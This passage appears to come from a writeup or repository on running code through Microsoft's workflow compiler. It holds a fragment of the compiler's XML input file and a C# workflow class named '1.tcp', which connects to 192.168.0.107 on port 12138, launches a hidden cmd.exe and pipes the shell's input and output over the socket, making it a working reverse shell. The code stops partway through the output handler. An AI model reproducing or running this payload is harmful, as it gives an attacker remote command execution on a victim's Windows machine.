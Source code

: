 	<d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
	<d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
	<d2p1:mtInfo i:nil="true"/>
	<d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
	</parameters>
	</CompilerInput>
  ##### 1.tcp
```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Net;
using System.Net.Sockets;
using System.Workflow.Activities; 
public class Program : SequentialWorkflowActivity
{
static StreamWriter streamWriter; 
public Program()
{
using(TcpClient client = new TcpClient("192.168.0.107", 12138))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream); 
StringBuilder strInput = new StringBuilder(); 
Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine(); 
while(true)
{
strInput.Append(rdr.ReadLine());
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
}
}
}
} 
private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
{
StringBuilder strOutput = new StringBuilder(); 
if (!String.IsNullOrEmpty(outLine.Data))
{
try
{
strOutput.Append(outLine.Data);
streamWriter.WriteLine(strOutput);
streamWriter.Flush();
}
```